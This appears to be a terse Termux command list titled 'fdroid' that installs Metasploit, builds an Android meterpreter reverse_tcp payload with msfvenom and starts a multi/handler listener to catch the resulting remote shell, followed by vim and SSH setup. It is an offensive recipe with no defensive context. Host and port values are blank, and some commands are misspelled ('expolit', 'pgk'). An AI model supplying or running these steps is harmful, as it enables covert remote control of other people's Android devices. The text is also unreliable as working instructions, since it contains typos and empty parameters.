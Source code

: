 # fdroid
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh

sshd

pkill ssh
